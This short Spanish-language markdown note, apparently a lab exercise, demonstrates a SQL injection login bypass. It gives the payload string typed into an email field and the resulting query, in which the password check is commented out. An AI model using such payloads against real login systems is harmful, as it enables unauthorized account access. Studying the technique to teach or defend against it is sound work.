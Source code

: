#Primera inyección SQL

Login con un usuario que no se encuentra en la base de datos.

Para esto se ejecuta en la interfaz la siguiente inyección

strosanchez@gmail.com' or '1=1'#

Con esto el backend realiza la siguiente consulta sql

SELECT * FROM `users` WHERE email = 'strosanchez@gmail.com' or '1=1'#' and password = 'a'

Se comenta la parte del password con #